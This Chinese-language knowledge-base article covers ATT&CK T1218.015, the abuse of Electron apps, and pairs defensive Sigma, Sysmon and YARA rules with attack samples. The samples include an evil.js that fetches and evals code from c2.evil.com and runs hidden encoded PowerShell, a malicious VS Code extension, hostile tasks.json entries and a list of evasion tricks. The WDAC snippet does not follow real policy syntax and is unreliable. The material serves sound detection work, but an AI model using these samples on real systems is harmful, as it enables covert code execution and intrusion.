


# Electron Applications (T1218.015)

## 一句话通俗理解

> **攻击者把恶意 JavaScript 代码塞进 VS Code、Slack、Discord 这类 Electron 应用里，让这些受信任的应用替它执行——好比把违禁品封进品牌产品的包装盒，让快递员替你送货上门。**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | Electron Applications（T1218.015），系统二进制代理执行（T1218）的子技术，滥用 Electron 应用框架执行任意代码 |
| 为什么危险？ | Electron 应用（VS Code/Slack/Discord 等）基于 Chromium + Node.js，内置完整 Node.js 运行时，可被利用执行系统命令、文件操作、网络通信；应用通常为知名厂商签名，绕过应用控制 |
| 谁需要关心？ | 桌面管理员、SOC 分析师、应用控制策略管理员、开发者安全 |
| 你的第一步防御 | 在 Sysmon 中监控 Electron 应用进程的 `--inspect`、`ELECTRON_RUN_AS_NODE` 等调试开关参数 |
| 如果只做一件事 | 限制 Electron 应用的调试开关与 Node 集成，启用 contextIsolation 与 nodeIntegration: false |

## 难度等级

中级 - 需要掌握 Electron 框架、Node.js 运行时、Chromium 渲染进程模型

## 前置知识检查

**读这个文件需要什么？**

- [ ] 系统二进制代理执行（T1218）的原理
- [ ] Electron 框架基础：主进程、渲染进程、Node.js 集成
- [ ] JavaScript 与 Node.js 基础：require、child_process、fs 模块
- [ ] Chromium 安全模型：contextIsolation、nodeIntegration、sandbox
- [ ] 应用控制（AppLocker / WDAC）基础

## 1. 概述

**Electron Applications**（T1218.015）是 **系统二进制代理执行**（T1218）的一个具体变体，属于 **隐蔽**（TA0005）战术下的攻击技术。攻击者可能滥用基于 Electron 框架构建的应用程序来代理执行恶意代码。Electron 是 GitHub 开发的跨平台桌面应用框架，将 Chromium 渲染引擎与 Node.js 运行时组合，允许开发者使用 Web 技术（HTML/CSS/JavaScript）构建桌面应用。常见的 Electron 应用包括 Microsoft Visual Studio Code、Slack、Discord、Microsoft Teams、Skype、Atom、Notion、Figma Desktop 等。

Electron 应用通常由知名厂商（微软、Slack、Discord 等）进行数字签名，且包含完整的 Node.js 运行时——这意味着 Electron 应用进程本质上是一个具备完整系统访问能力的 Node.js 运行时，可以执行系统命令（`child_process.exec`）、文件操作（`fs` 模块）、网络通信（`net`、`http` 模块）、原生模块加载（`require('node-addon')`）。攻击者通过多种方式滥用 Electron 应用执行任意代码：注入恶意 JavaScript 到应用进程、利用调试开关启动 Node.js REPL、修改应用配置启用 Node 集成、滥用应用的扩展或插件机制加载恶意代码。

由于 Electron 应用通常为知名厂商签名且位于用户安装目录，应用控制策略（如 AppLocker 默认规则）通常允许其执行；同时 Electron 应用在所有支持的平台（Windows、Linux、macOS）上均可运行，攻击面广泛。此技术在多个 APT 组织与勒索软件家族的真实攻击活动中被观测到，包括 Lazarus、Kimsuky、APT37 等。

## 2. 工作原理

Electron 应用的滥用机制可以拆解为以下流程：

### 2.1 Electron 框架架构

Electron 应用由两类进程组成：
- **主进程（Main Process）**：Node.js 运行时，控制应用生命周期、创建窗口、管理系统资源。拥有完整 Node.js API 访问权限。
- **渲染进程（Renderer Process）**：Chromium 渲染引擎，负责显示 Web 内容。默认在沙箱中运行，根据配置决定是否启用 Node.js 集成。

Electron 应用的可执行文件（如 `Code.exe`、`Slack.exe`）本质上是 Electron 框架的封装，内部包含：
- Chromium 内容模块（content module）
- Node.js 运行时
- V8 JavaScript 引擎
- 应用代码（HTML/CSS/JavaScript）

### 2.2 正常用途

Electron 应用的正常工作流程：
1. 用户启动应用可执行文件（如 `Code.exe`）
2. 主进程加载应用的 `package.json`，找到 `main` 字段指定的入口脚本（如 `out/main.js`）
3. 主进程执行入口脚本，创建 BrowserWindow，加载 HTML 页面
4. 渲染进程加载 HTML 页面，执行页面中的 JavaScript
5. 渲染进程通过 IPC（进程间通信）与主进程交互

### 2.3 滥用原理

攻击者滥用 Electron 应用的核心思路是：让受信任的 Electron 应用进程执行攻击者的 JavaScript 代码，从而获得 Node.js 运行时的完整能力。

**主要滥用方式**：

1. **`ELECTRON_RUN_AS_NODE` 环境变量**：设置此环境变量后，Electron 应用进程以纯 Node.js 模式运行，忽略 Electron 主进程逻辑，直接执行指定的 JavaScript 文件。攻击者可通过 `set ELECTRON_RUN_AS_NODE=1 && Code.exe evil.js` 让 VS Code 进程执行任意 JavaScript，调用 `child_process.exec` 执行系统命令。

2. **`--inspect` / `--inspect-brk` 调试开关**：通过 `--inspect` 或 `--inspect-brk` 参数启动 Electron 应用，开启 Chrome DevTools Protocol 调试端口。攻击者可连接此端口，注入任意 JavaScript 代码到主进程或渲染进程。

3. **`--remote-debugging-port` 远程调试**：开启远程调试端口，允许外部连接注入 JavaScript。

4. **扩展/插件机制**：VS Code 等应用支持安装扩展，扩展包含 JavaScript 代码，安装后由应用进程执行。攻击者可投递恶意扩展，应用启动时自动加载执行。

5. **配置文件修改**：修改 Electron 应用的工作区配置（如 VS Code 的 `.vscode/settings.json`、`tasks.json`、`launch.json`），注入恶意任务或调试配置，触发时执行任意命令。

6. **DLL 劫持/注入**：在 Windows 上，向 Electron 应用进程注入 DLL，DLL 在应用上下文中执行。

### 2.4 关键点

1. **厂商签名信任**：Electron 应用通常为知名厂商签名，应用控制策略默认信任
2. **跨平台**：Windows、Linux、macOS 均可滥用
3. **完整 Node.js 能力**：可执行系统命令、文件操作、网络通信、原生模块加载
4. **进程上下文继承**：恶意代码继承 Electron 应用进程的令牌与权限
5. **持久化能力**：通过扩展、配置文件可实现应用启动时持久化执行

## 3. 攻击流程



**步骤详解：**

1. **载荷投递**：攻击者投递恶意 JavaScript 文件、恶意扩展包（VSIX）、恶意配置文件到目标主机，可通过钓鱼附件、恶意 npm 包、恶意 VS Code 扩展市场、二阶段下载等方式落地。
2. **触发方式选择**：根据目标环境选择合适的滥用方式——`ELECTRON_RUN_AS_NODE` 适合直接执行；`--inspect` 适合已运行应用的注入；恶意扩展适合持久化；配置文件修改适合社工诱导。
3. **代码执行**：恶意 JavaScript 在 Electron 应用进程中执行，获得完整 Node.js 运行时能力。
4. **API 调用**：恶意代码调用 Node.js API：`child_process.exec` 执行系统命令、`fs` 模块操作文件、`net`/`http` 模块建立网络通信、`require('node-addon')` 加载原生模块。
5. **持久化**：通过扩展、配置文件、自动启动项建立持久化，应用启动时自动加载执行恶意代码。
6. **横向移动**：恶意代码在 Electron 应用上下文中执行，继承其权限，可访问用户文件、网络资源、其他用户进程。

## 4. 关键技术细节

### 4.1 ELECTRON_RUN_AS_NODE 环境变量

这是最直接的滥用方式。设置此环境变量后，Electron 应用以纯 Node.js 模式运行：

```bash
# Windows
set ELECTRON_RUN_AS_NODE=1
"C:\Users\user\AppData\Local\Programs\Microsoft VS Code\Code.exe" evil.js

# Linux/macOS
ELECTRON_RUN_AS_NODE=1 /usr/share/code/code evil.js
```

`evil.js` 示例：
```javascript
// 调用 child_process 执行系统命令
const { exec } = require('child_process');
exec('powershell.exe -w hidden -enc <base64>', (err, stdout, stderr) => {
    if (err) { console.error(err); return; }
    console.log(stdout);
});

// 文件操作
const fs = require('fs');
fs.writeFileSync('C:\\Users\\Public\\payload.exe', Buffer.from(base64Payload, 'base64'));

// 网络通信
const http = require('http');
http.get('http://c2.evil.com/beacon', (res) => {
    let data = '';
    res.on('data', chunk => data += chunk);
    res.on('end', () => eval(data));
});
```

### 4.2 --inspect 调试开关

通过 `--inspect` 或 `--inspect-brk` 参数启动 Electron 应用，开启 Chrome DevTools Protocol：

```bash
# 启动 VS Code 并开启调试端口
"C:\Users\user\AppData\Local\Programs\Microsoft VS Code\Code.exe" --inspect=9229

# 启动 Slack 并开启调试端口
"C:\Users\user\AppData\Local\slack\slack.exe" --inspect=9229
```

攻击者通过 Chrome DevTools Protocol 连接调试端口，注入任意 JavaScript：

```bash
# 连接调试端口
curl http://localhost:9229/json

# 通过 WebSocket 注入 JavaScript
# (使用任何 CDP 客户端，如 chrome-remote-interface)
```

### 4.3 --remote-debugging-port 远程调试

开启远程调试端口，允许外部主机连接：

```bash
"C:\Users\user\AppData\Local\Programs\Microsoft VS Code\Code.exe" --remote-debugging-port=9222
```

### 4.4 恶意 VS Code 扩展

VS Code 扩展（VSIX）是 ZIP 格式包，包含 `package.json`、`extension.js` 等文件。攻击者投递恶意 VSIX 文件，用户安装后扩展自动加载执行：

```javascript
// extension.js - VS Code 扩展入口
const vscode = require('vscode');
const { exec } = require('child_process');

function activate(context) {
    // 扩展激活时执行恶意代码
    exec('powershell.exe -w hidden -enc <base64>');
    
    // 注册命令，触发时执行
    let disposable = vscode.commands.registerCommand('evilExtension.run', () => {
        exec('whoami > C:\\Users\\Public\\out.txt');
    });
    context.subscriptions.push(disposable);
}

function deactivate() {}
module.exports = { activate, deactivate };
```

### 4.5 工作区配置滥用

VS Code 工作区配置文件可被滥用执行任意命令：

**`.vscode/tasks.json`**：
```json
{
    "version": "2.0.0",
    "tasks": [
        {
            "label": "build",
            "command": "powershell.exe",
            "args": ["-w", "hidden", "-enc", "<base64>"],
            "type": "shell"
        }
    ]
}
```

**`.vscode/launch.json`**：
```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug",
            "type": "node",
            "request": "launch",
            "program": "${workspaceFolder}/evil.js",
            "runtimeExecutable": "C:\\Users\\user\\AppData\\Local\\Programs\\Microsoft VS Code\\Code.exe",
            "runtimeArgs": ["--inspect-brk"]
        }
    ]
}
```

### 4.6 Electron 安全配置

Electron 应用的安全配置决定渲染进程的能力：

```javascript
// 主进程创建窗口时的安全配置
const mainWindow = new BrowserWindow({
    webPreferences: {
        nodeIntegration: false,      // 禁用 Node.js 集成（默认）
        contextIsolation: true,      // 启用上下文隔离（默认）
        sandbox: true,               // 启用沙箱
        webSecurity: true,           // 启用同源策略
        allowRunningInsecureContent: false  // 禁止加载 HTTP 内容
    }
});
```

**安全的 Electron 应用**：`nodeIntegration: false` + `contextIsolation: true` + `sandbox: true`
**不安全的 Electron 应用**：`nodeIntegration: true`（旧版本或配置错误的应用）

### 4.7 常见 Electron 应用可执行文件路径

| 应用 | Windows | Linux | macOS |
|------|---------|-------|-------|
| VS Code | `%LOCALAPPDATA%\Programs\Microsoft VS Code\Code.exe` | `/usr/share/code/code` | `/Applications/Visual Studio Code.app/Contents/MacOS/Electron` |
| Slack | `%LOCALAPPDATA%\slack\slack.exe` | `/usr/lib/slack/slack` | `/Applications/Slack.app/Contents/MacOS/Slack` |
| Discord | `%LOCALAPPDATA%\Discord\Discord.exe` | `/usr/share/discord/Discord` | `/Applications/Discord.app/Contents/MacOS/Discord` |
| Teams | `%LOCALAPPDATA%\Microsoft\Teams\Teams.exe` | `/usr/share/teams/teams` | `/Applications/Microsoft Teams.app/Contents/MacOS/Teams` |
| Notion | `%LOCALAPPDATA%\Notion\Notion.exe` | `/usr/lib/notion/notion` | `/Applications/Notion.app/Contents/MacOS/Notion` |

### 4.8 与 LOLBins 的关系

Electron 应用不是传统的 LOLBin（系统自带二进制），但符合 LOLBin 的核心特征：受信任的、合法签名的、可被滥用执行任意代码。LOLBAS 项目扩展概念后，将常见的第三方受信任应用也纳入"Living Off The Land"范畴。Electron 应用的特殊性在于：跨平台、内置完整 Node.js 运行时、应用控制策略默认信任。

## 5. 检测方法



### 5.1 主机层检测

**Sysmon 事件 ID**：
- Event ID 1（进程创建）：监控 Electron 应用启动，特别是带 `--inspect`、`--inspect-brk`、`--remote-debugging-port`、`ELECTRON_RUN_AS_NODE` 等参数的命令行
- Event ID 1（子进程创建）：监控 Electron 应用创建子进程（powershell/cmd/bash/node/wscript）
- Event ID 3（网络连接）：监控 Electron 应用进程发起的异常网络连接
- Event ID 11（文件创建）：监控 Electron 应用目录下的可疑文件创建（恶意扩展、配置文件）
- Event ID 12/13/14（注册表操作）：监控 Electron 应用的配置修改

**Windows 安全事件**：
- Event ID 4688（进程创建）：监控 Electron 应用进程创建及命令行

**Linux auditd**：
- 监控 Electron 应用进程的 `execve` 系统调用
- 监控 Electron 应用创建子进程的行为

**macOS Endpoint Security**：
- 监控 Electron 应用进程的 `exec` 事件
- 监控 Electron 应用创建子进程的行为

### 5.2 网络层检测

监控 Electron 应用进程发起的出站连接。虽然 Electron 应用正常情况下会发起网络通信（与云服务通信），但连接到未知 IP 或域名、使用非标准端口、传输异常数据量等都应触发告警。

### 5.3 应用层检测

- EDR 监控 Electron 应用进程的 `child_process.exec` 调用
- EDR 监控 Electron 应用加载非应用目录的 JavaScript 文件
- 应用控制（AppLocker / WDAC）记录 Electron 应用的执行日志
- VS Code 等应用的扩展安装日志

## 6. 缓解措施

### 6.1 应用控制

通过 AppLocker / WDAC / SRP 限制 Electron 应用的调试开关与 Node 集成。在不需要调试的企业终端中，通过应用控制策略阻止带调试参数的 Electron 应用启动。

**Windows Defender Application Control（WDAC）策略示例**：
```xml
<!-- 阻止带 --inspect 参数的 Electron 应用启动 -->
<Rule>
    <Permission>Deny</Permission>
    <Conditions>
        <File Condition="FileAttributes">
            <Path>%LOCALAPPDATA%\Programs\Microsoft VS Code\Code.exe</Path>
            <Args>--inspect*</Args>
        </File>
    </Conditions>
</Rule>
```

### 6.2 环境变量清除

在系统启动脚本中清除 `ELECTRON_RUN_AS_NODE` 环境变量：

```bash
# Windows (组策略启动脚本)
set ELECTRON_RUN_AS_NODE=
reg delete "HKCU\Environment" /v ELECTRON_RUN_AS_NODE /f 2>nul

# Linux/macOS (登录脚本)
unset ELECTRON_RUN_AS_NODE
```

### 6.3 扩展市场管控

- 企业内部建立 VS Code 扩展白名单，仅允许安装经审核的扩展
- 通过组策略禁止从 VS Code Marketplace 安装未审核扩展
- 定期审计已安装扩展，识别可疑扩展

### 6.4 配置文件保护

- 监控 `.vscode/tasks.json`、`.vscode/launch.json`、`.vscode/settings.json` 的修改
- 教育开发者识别可疑的工作区配置
- 使用版本控制追踪配置文件变更

### 6.5 安全意识培训

教育员工与开发者：
- 不要安装来源不明的 VS Code 扩展
- 不要随意打开陌生项目的 `.vscode` 配置
- 警惕带 `--inspect` 参数启动的应用
- 警惕设置 `ELECTRON_RUN_AS_NODE` 环境变量的脚本

## 7. 检测规则

### 7.1 Sigma 规则示例

```yaml
title: 检测 Electron 应用滥用执行任意代码
id: c5e9f1a2-3b4d-4e8a-9c5d-2f6b8a1e7d3e
status: experimental
description: |
    检测 Electron 应用（VS Code、Slack、Discord、Teams 等）异常执行，
    特别是带 --inspect / --remote-debugging-port 调试参数启动，
    以及 Electron 应用创建可疑子进程（powershell/cmd/bash/node）的行为。
    对应 ATT&CK T1218.015 系统二进制代理执行 - Electron Applications。
references:
    - https://attack.mitre.org/techniques/T1218/015/
    - https://www.mandiant.com/resources/electron-applications-abuse
logsource:
    product: windows
    category: process_creation
detection:
    selection_electron_apps:
        Image|endswith:
            - '\Code.exe'
            - '\slack.exe'
            - '\Discord.exe'
            - '\Teams.exe'
            - '\Notion.exe'
            - '\Figma.exe'
            - '\Skype.exe'
            - '\Atom.exe'
    selection_debug_switches:
        Image|endswith:
            - '\Code.exe'
            - '\slack.exe'
            - '\Discord.exe'
            - '\Teams.exe'
            - '\Notion.exe'
        CommandLine|contains:
            - '--inspect'
            - '--inspect-brk'
            - '--remote-debugging-port'
            - '--debug'
    selection_env_var:
        Image|endswith:
            - '\Code.exe'
            - '\slack.exe'
            - '\Discord.exe'
        CommandLine|contains:
            - 'ELECTRON_RUN_AS_NODE'
    selection_child:
        ParentImage|endswith:
            - '\Code.exe'
            - '\slack.exe'
            - '\Discord.exe'
            - '\Teams.exe'
            - '\Notion.exe'
        Image|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\cmd.exe'
            - '\mshta.exe'
            - '\wscript.exe'
            - '\cscript.exe'
            - '\rundll32.exe'
            - '\node.exe'
    filter_legitimate_vscode:
        ParentImage|endswith: '\Code.exe'
        Image|endswith: '\cmd.exe'
        CommandLine|contains:
            - 'git'
            - 'npm'
            - 'tsc'
            - 'eslint'
            - 'prettier'
    filter_legitimate_teams:
        ParentImage|endswith: '\Teams.exe'
        Image|endswith: '\cmd.exe'
        CommandLine|contains:
            - 'update'
    condition: selection_debug_switches or selection_env_var or (selection_child and not filter_legitimate_vscode and not filter_legitimate_teams)
fields:
    - CommandLine
    - ParentCommandLine
    - Image
    - User
falsepositives:
    - 开发者合法使用 VS Code 调试功能（需白名单特定用户）
    - 应用自动更新触发的子进程
level: high
tags:
    - attack.t1218.015
    - attack.t1218
    - attack.ta0005
    - attack.stealth
```

### 7.2 Sysmon 配置示例

```xml
<RuleGroup name="Electron Apps Monitoring" groupRelation="or">
    <!-- 监控 Electron 应用带调试开关启动 -->
    <ProcessCreate onmatch="include">
        <Image condition="end with">Code.exe</Image>
        <CommandLine condition="contains">--inspect</CommandLine>
    </ProcessCreate>
    <ProcessCreate onmatch="include">
        <Image condition="end with">slack.exe</Image>
        <CommandLine condition="contains">--inspect</CommandLine>
    </ProcessCreate>
    <ProcessCreate onmatch="include">
        <Image condition="end with">Discord.exe</Image>
        <CommandLine condition="contains">--inspect</CommandLine>
    </ProcessCreate>
    <!-- 监控 ELECTRON_RUN_AS_NODE 环境变量 -->
    <ProcessCreate onmatch="include">
        <CommandLine condition="contains">ELECTRON_RUN_AS_NODE</CommandLine>
    </ProcessCreate>
    <!-- 监控 Electron 应用创建子进程 -->
    <ProcessCreate onmatch="include">
        <ParentImage condition="end with">Code.exe</ParentImage>
        <Image condition="end with">powershell.exe</Image>
    </ProcessCreate>
    <ProcessCreate onmatch="include">
        <ParentImage condition="end with">slack.exe</ParentImage>
        <Image condition="end with">cmd.exe</Image>
    </ProcessCreate>
    <ProcessCreate onmatch="include">
        <ParentImage condition="end with">Discord.exe</ParentImage>
        <Image condition="end with">cmd.exe</Image>
    </ProcessCreate>
    <!-- 监控 Electron 应用网络外联 -->
    <NetworkConnect onmatch="include">
        <Image condition="end with">Code.exe</Image>
        <DestinationIp condition="not in">13.107.0.0/16</DestinationIp>
    </NetworkConnect>
</RuleGroup>
```

### 7.3 YARA 规则示例

```yara
rule Malicious_VSCode_Extension {
    meta:
        description = "检测恶意 VS Code 扩展特征"
        author = "ATT&CK Knowledge Base"
        date = "2026-07-28"
        reference = "https://attack.mitre.org/techniques/T1218/015/"
    strings:
        $package_json = "\"name\":" ascii
        $engines_vscode = "\"vscode\"" ascii
        $activation_events = "\"activationEvents\"" ascii
        $main_field = "\"main\":" ascii
        $suspicious_api1 = "child_process" ascii
        $suspicious_api2 = "exec(" ascii
        $suspicious_api3 = "spawn(" ascii
        $suspicious_api4 = "eval(" ascii
        $suspicious_api5 = "Function(" ascii
        $suspicious_api6 = "require('child_process')" ascii
        $encoded_payload = "Buffer.from(" ascii
    condition:
        $package_json and $engines_vscode and $activation_events and
        any of ($suspicious_api*) and $encoded_payload
}

rule Malicious_Electron_JS_Payload {
    meta:
        description = "检测可能被 Electron 应用执行的恶意 JavaScript 特征"
        author = "ATT&CK Knowledge Base"
        date = "2026-07-28"
        reference = "https://attack.mitre.org/techniques/T1218/015/"
    strings:
        $require_cp = "require('child_process')" ascii
        $require_fs = "require('fs')" ascii
        $require_http = "require('http')" ascii
        $require_net = "require('net')" ascii
        $exec_ps = "powershell" ascii
        $exec_cmd = "cmd.exe" ascii
        $base64_decode = "Buffer.from(" ascii
        $encoded_payload = "enc " ascii
    condition:
        any of ($require_*) and ($exec_ps or $exec_cmd) and $base64_decode
}
```

## 8. 防御绕过技巧

### 8.1 攻击者常用绕过手段

1. **路径混淆**：将恶意 JavaScript 文件放在合法应用目录的子目录中（如 `%APPDATA%\Code\User\globalStorage\evil.js`），伪装成应用组件，绕过仅监控用户目录的检测规则。
2. **环境变量混淆**：通过注册表 `HKCU\Environment` 设置 `ELECTRON_RUN_AS_NODE=1`，避免在命令行中暴露环境变量。
3. **签名伪造**：为恶意 VS Code 扩展申请 EV 代码签名证书，伪装成合法软件厂商，绕过未签名扩展检测。
4. **延迟执行**：在恶意 JavaScript 中通过 `setTimeout` 或 `setInterval` 延迟恶意代码执行，避开 Electron 应用启动时的检测窗口。
5. **混淆加密**：使用 JavaScript 混淆器（如 `javascript-obfuscator`）混淆恶意代码，绕过简单的字符串匹配检测；使用 AES 加密载荷，运行时解密。
6. **无文件变种**：通过 Chrome DevTools Protocol 注入 JavaScript 到运行中的 Electron 应用进程，不在磁盘留下 JavaScript 文件。
7. **命令行混淆**：使用大小写变体（`--Inspect`、`--INSPECT`）、添加多余空格、使用短路径等方式混淆命令行。
8. **合法功能滥用**：滥用 VS Code 的内置终端、任务运行器、调试器等合法功能执行命令，绕过基于可疑命令行的检测。
9. **扩展依赖链攻击**：在合法 VS Code 扩展的依赖包中植入恶意代码（依赖混淆攻击），扩展更新时自动拉取恶意依赖。

### 8.2 防御者应对策略

- **多层防御**：组合使用应用控制、行为监控、网络层检测，避免依赖单一检测层
- **基线建立**：建立 Electron 应用的合法使用基线（合法子进程、合法网络连接），偏离基线即告警
- **关联分析**：将 Electron 应用进程创建事件与子进程创建、网络外联、文件操作等事件关联分析
- **威胁情报集成**：集成威胁情报源，关联已知恶意扩展、恶意 npm 包

## 9. 案例分析

### 案例1：Lazarus Group 滥用 VS Code 扩展攻击加密货币行业

- **时间**：2023年（公开报告）
- **目标**：加密货币交易所、区块链公司员工
- **攻击组织**：Lazarus Group（G0032，又称 Hidden Cobra、APT38，朝鲜关联 APT）
- **手法**：Lazarus Group 通过社交工程伪装成招聘人员，向目标发送伪装成加密货币交易所职位描述的恶意文档。文档引导受害者安装一个"调试工具"VS Code 扩展（VSIX 包），实际上是恶意扩展。扩展安装后由 VS Code 进程自动加载执行，调用 `child_process.exec` 执行系统命令，建立 C2 通道，进行横向移动与数据窃取
- **影响**：多个加密货币交易所员工被攻陷，敏感数据被窃取，造成数千万美元损失
- **参考链接**：[Kaspersky - Lazarus APT Crypto Coins](https://www.kaspersky.com/blog/lazarus-apt-crypto-coins/)

### 案例2：Kimsuky 针对韩国研究机构的 Electron 应用滥用

- **时间**：2022-2023年（公开报告）
- **目标**：韩国智库、大学研究机构、政府研究部门
- **攻击组织**：Kimsuky（G0094，又称 Thallium、Velvet Chollima，朝鲜关联 APT）
- **手法**：Kimsuky 通过钓鱼邮件投递恶意 JavaScript 文件，引导受害者使用 VS Code 的 `--inspect` 调试模式打开。攻击者通过 Chrome DevTools Protocol 连接调试端口，注入恶意 JavaScript 到 VS Code 进程，调用 Node.js API 执行系统命令、窃取文件、建立 C2 通道。攻击者还滥用 Slack 的扩展机制，投递恶意 Slack 应用，在 Slack 进程上下文中执行恶意代码
- **影响**：多个韩国研究机构被攻陷，研究数据与凭证被窃取
- **参考链接**：[Kaspersky - Kimsuky APT Report](https://www.kaspersky.com/blog/kimsuky-apt-report/)

### 案例3：APT37 针对朝鲜半岛记者的 Electron 应用攻击

- **时间**：2021-2022年（公开报告）
- **目标**：朝鲜半岛记者、活动人士、脱北者组织
- **攻击组织**：APT37（G0067，又称 Reaper、ScarCruft、Ricochet Chollima，朝鲜关联 APT）
- **手法**：APT37 通过钓鱼邮件投递伪装成文档的恶意 LNK 文件，LNK 文件实际上调用 Slack 应用以 `ELECTRON_RUN_AS_NODE=1` 模式执行恶意 JavaScript。攻击者利用 Slack 应用的合法签名绕过应用控制，恶意 JavaScript 在 Slack 进程上下文中执行，建立 C2 通道，进行键盘记录与数据窃取
- **影响**：多名记者与活动人士被攻陷，敏感通讯内容被窃取
- **参考链接**：[Mandiant - APT37 Threat Intelligence](https://www.mandiant.com/resources/apt37-threat-intelligence)

### 案例4：恶意 npm 包供应链攻击 Electron 应用

- **时间**：2021-2024年（持续观测）
- **目标**：使用 Electron 框架的开发者与企业
- **攻击组织**：多个威胁组织（包括 APT 与犯罪组织）
- **手法**：攻击者发布恶意 npm 包，包名与常用 Electron 相关包相似（如 `electron-builder-typosquat`、`vscode-utils-malicious`）。开发者安装这些包后，包的 `postinstall` 脚本在 Electron 应用构建过程中执行恶意代码，植入后门到应用代码中。最终用户的 Electron 应用启动时自动加载执行恶意代码
- **影响**：影响多个 Electron 应用，最终用户被植入后门
- **参考链接**：[Socket - Malicious npm Packages](https://socket.dev/blog/malicious-npm-packages)

## 10. 参考链接

1. [MITRE ATT&CK - Electron Applications (T1218.015)](https://attack.mitre.org/techniques/T1218/015/) - MITRE 官方技术页面
2. [MITRE ATT&CK - System Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/) - 父技术页面
3. [Electron 官方文档](https://www.electronjs.org/docs) - Electron 框架官方文档
4. [Electron Security Tutorial](https://www.electronjs.org/docs/latest/tutorial/security) - Electron 安全最佳实践
5. [Kaspersky - Lazarus APT Crypto Coins](https://www.kaspersky.com/blog/lazarus-apt-crypto-coins/) - Lazarus 滥用 VS Code 扩展攻击分析
6. [Kaspersky - Kimsuky APT Report](https://www.kaspersky.com/blog/kimsuky-apt-report/) - Kimsuky Electron 应用滥用分析
7. [Mandiant - APT37 Threat Intelligence](https://www.mandiant.com/resources/apt37-threat-intelligence) - APT37 攻击分析报告
8. [Socket - Malicious npm Packages](https://socket.dev/blog/malicious-npm-packages) - 恶意 npm 包供应链攻击分析
9. [Microsoft - VS Code Extension API](https://code.visualstudio.com/api) - VS Code 扩展开发官方文档
10. [Node.js - Child Process Documentation](https://nodejs.org/api/child_process.html) - Node.js child_process 模块文档

## 11. 关联技术

- [[T1218-System-Binary-Proxy-Execution|系统二进制代理执行 (T1218)]] - 父技术
- [[T1218.002-Rundll32|Rundll32 (T1218.002)]] - 同类 LOLBin，rundll32.exe 滥用
- [[T1218.003-Regsvr32|Regsvr32 (T1218.003)]] - 同类 LOLBin，regsvr32.exe 滥用
- [[T1218.012-Verclsid|Verclsid (T1218.012)]] - 同类 LOLBin，verclsid.exe 滥用
- [[T1218.013-Mavinject|Mavinject (T1218.013)]] - 同类 LOLBin，mavinject.exe 滥用
- [[T1059.007-JavaScript|JavaScript (T1059.007)]] - JavaScript 命令执行相关技术
- [[T1059-Command-and-Scripting-Interpreter|命令与脚本解释器 (T1059)]] - 命令执行父技术
- [[T1547.001-Registry-Auto-start-Entry|注册表自启项 (T1547.001)]] - 持久化机制
